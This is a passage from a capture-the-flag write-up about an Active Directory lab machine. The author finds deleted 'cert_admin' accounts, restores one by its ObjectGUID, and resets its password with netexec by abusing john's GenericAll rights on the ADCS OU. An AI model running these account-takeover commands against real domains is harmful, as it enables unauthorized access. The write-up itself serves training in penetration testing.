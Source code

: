 This revealed multiple deleted instances of a user named **`cert_admin`**:

```powershell
Name              : cert_admin
                    DEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3
SamAccountName    : cert_admin
DistinguishedName : CN=cert_admin\0ADEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3,CN=Deleted Objects,DC=tombwatcher,DC=htb
WhenChanged       : 11/15/2024 7:57:59 PM
ObjectGUID        : f80369c8-96a2-4a7f-a56c-9c15edd7d1e3

Name              : cert_admin
                    DEL:c1f1f0fe-df9c-494c-bf05-0679e181b358
SamAccountName    : cert_admin
DistinguishedName : CN=cert_admin\0ADEL:c1f1f0fe-df9c-494c-bf05-0679e181b358,CN=Deleted Objects,DC=tombwatcher,DC=htb
WhenChanged       : 11/16/2024 12:04:21 PM
ObjectGUID        : c1f1f0fe-df9c-494c-bf05-0679e181b358

Name              : cert_admin
                    DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
SamAccountName    : cert_admin
DistinguishedName : CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb
WhenChanged       : 11/16/2024 12:07:27 PM
ObjectGUID        : 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
```

### Restoring cert_admin

I restored the most recent deleted user using its ObjectGUID:

```powershell
Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
```

I verified the restoration with `net user` and confirmed the account existed. I then examined the user's properties:

```powershell
Get-ADUser cert_admin -Properties * | Select-Object Name, SamAccountName, DistinguishedName, Enabled, GivenName, Surname, UserPrincipalName, WhenCreated, WhenChanged, LastLogonTimestamp, PasswordExpired, PasswordNeverExpires, ServicePrincipalName, MemberOf
```

The user `cert_admin` was located in the **ADCS OU**, and since john has **GenericAll** privileges on this OU, I could change cert_admin's password:

```bash
nxc smb 10.10.11.72 -u 'john' -p NewPassword -M change-password -o USER=cert_admin NEWPASS=NewPassword
```

✅ **Success!** cert_admin's password was now `NewPassword`.

---
